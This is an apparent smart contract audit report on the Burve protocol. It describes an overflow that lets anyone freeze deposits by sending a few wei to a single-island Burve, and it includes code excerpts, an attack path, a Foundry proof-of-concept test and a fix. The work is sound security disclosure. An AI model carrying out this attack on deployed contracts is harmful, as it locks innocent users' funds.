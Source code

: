 Early Infrared Albatross

High

# Anyone can freeze funds in burveIsland

### Summary

When burve consists of only one island, anyone can send a tiny amount of funds to it to cause the totalNominalLiq calculation to overflow, thereby freezing the funds in burveIsland.

### Root Cause

In [`Burve.sol:906`](https://github.com/sherlock-audit/2025-04-burve-thereksfour//blob/5ade42e1baf8357f39e3ac6c001c290f39f9d31a/Burve/src/single/Burve.sol#L906-L908), when a burve consists of only one island, and anyone sends 1 wei token to the burve, the protocol will emit a MalformedPool event and will not revert. In [`Burve.sol:917`](https://github.com/sherlock-audit/2025-04-burve-thereksfour//blob/5ade42e1baf8357f39e3ac6c001c290f39f9d31a/Burve/src/single/Burve.sol#L917), `mintNominalLiq` will be returned as `unit128.max - 2 * distX96.length`.
```solidity
        if (unsafeNominalLiq == uint256(type(uint128).max)) {
            emit MalformedPool();
        }

        // min calculated liquidity with the max allowed
        mintNominalLiq = unsafeNominalLiq > type(uint128).max
            ? type(uint128).max
            : uint128(unsafeNominalLiq);

        // during mint the liq at each range is rounded up
        // we subtract by the number of ranges to ensure we have enough liq
        mintNominalLiq = mintNominalLiq <= (2 * distX96.length)
            ? 0
            : mintNominalLiq - uint128(2 * distX96.length);
    }
```
 In [`Burve.sol:750`](https://github.com/sherlock-audit/2025-04-burve-thereksfour//blob/5ade42e1baf8357f39e3ac6c001c290f39f9d31a/Burve/src/single/Burve.sol#L750),`totalNominalLiq` will be added to the `mintNominalLiq` returned above, which will cause overflow.
```solidity
        uint128 compoundedNominalLiq = collectAndCalcCompound();
        if (compoundedNominalLiq == 0) {
            return;
        }

        totalNominalLiq += compoundedNominalLiq;
```
This will cause `compoundV3Ranges()` to always fail, which will cause `mint/burn` to always fail, resulting in users being unable to withdraw deposited funds.
```solidity
    function burn(
        uint256 shares,
        uint160 lowerSqrtPriceLimitX96,
        uint160 upperSqrtPriceLimitX96
    )
        external
        withinSqrtPX96Limits(lowerSqrtPriceLimitX96, upperSqrtPriceLimitX96)
    {
        // compound v3 ranges
        compoundV3Ranges();
```

### Internal Pre-conditions

None

### External Pre-conditions

None

### Attack Path

1. The victim deposits into BruveIsland
2. The attacker sends 10 wei token0/token1( > distX96.length) to BruveIsland
3. The victim fails to withdraw funds

### Impact

User funds are frozen

### PoC

```solidity
    function testRevert_CollectAndCalcCompound_MalformedPool() public forkOnly {
        // simulate collected amounts
        uint128 deadLiq = 100;
        (, uint256 deadIslandShares) = deadShareMint(
            address(burveIsland),
            deadLiq
        );

        uint128 liq = 1e18;
        IKodiakIsland island = burveIsland.island();

        // calc island mint
        (uint256 amount0, uint256 amount1) = getAmountsForLiquidity(
            liq,
            island.lowerTick(),
            island.upperTick(),
            true
        );
        (uint256 mint0, uint256 mint1, uint256 mintShares) = island
            .getMintAmounts(amount0, amount1);

        // deal required tokens
        deal(address(token0), address(alice), mint0);
        deal(address(token1), address(alice), mint1);

        vm.startPrank(alice);

        // approve transfer
        token0.approve(address(burveIsland), mint0);
        token1.approve(address(burveIsland), mint1);
        // mint
        burveIsland.mint(address(alice), liq, 0, type(uint128).max);

        vm.stopPrank();
        deal(address(token0), address(burveIsland), 10);
        deal(address(token1), address(burveIsland), 10);
        // vm.expectEmit(false, false, false, true);
        // emit Burve.MalformedPool();
        // burveIsland.compoundV3RangesExposed();
        vm.startPrank(alice);
        burveIsland.burn(burveIsland.balanceOf(alice), 0, type(uint128).max); // [FAIL: panic: arithmetic underflow or overflow (0x11)]
        vm.stopPrank();
    }

```

### Mitigation

When the MalformedPool is detected, `mintNominalLiq` is returned to 0
```diff
        if (unsafeNominalLiq == uint256(type(uint128).max)) {
            emit MalformedPool();
+           return 0;
        }
```
